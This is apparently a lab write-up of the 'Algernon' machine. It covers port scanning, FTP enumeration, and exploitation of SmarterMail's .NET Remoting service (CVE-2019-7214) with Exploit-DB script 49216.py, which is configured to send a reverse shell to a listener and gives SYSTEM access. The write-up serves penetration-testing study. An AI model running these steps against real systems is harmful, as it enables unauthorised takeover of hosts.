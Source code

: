 # PG Algernon
## SmarterMail, .NET Remoting (TCP/17001)
## Nmap Scan
```
nmap -T4 -p- -A -oN scan.txt 192.168.x.x
```
## Service Enumeration
```
Looking at the nmap output, anonymous login appears to be enabled on this FTP server.
I test the login and download all the files using mget *.
```
## FTP
```
mget *
```
## SMB
```
No anonymous share enumeration, access denied.
```
## HTTP
```
Looks like a default installation of Microsoft IIS web server.
I test for any files or directories using gobuster, but find nothing.
```
## HTTP (TCP/9998)
```
Looks like a web service called SmarterMail.
Check Exploit DB for any vulnerabilities matching this service name using searchsploit. 
Default credentials found using Google search do not work here.
Source code reveals a version number.
```
## .NET Remoting (TCP/17001)
```
.NET Remoting (TCP/17001)
Searching Google for information on this port, I see repeated mentions of remote code execution (RCE) coupled with SmarterMail.

    https://www.speedguide.net/port.php?port=17001
    https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-7214
    Confirm on Exploit DB: https://www.exploit-db.com/exploits/49216
```
##  Exploit
```
Using the exploit found using searchsploit I copy 49216.py to my current working directory.
Edit the exploit variables:

HOST='192.168.x.x'
PORT=17001
LHOST='192.168.x.x'
LPORT=80

Python
I then, start a TCP listener on port 80 and run the exploit.
python3 49216.py
```
##  Post-Exploitation
```
The SmarterMail service is being executed by the SYSTEM account, meaning I have fully compromised this host.
```


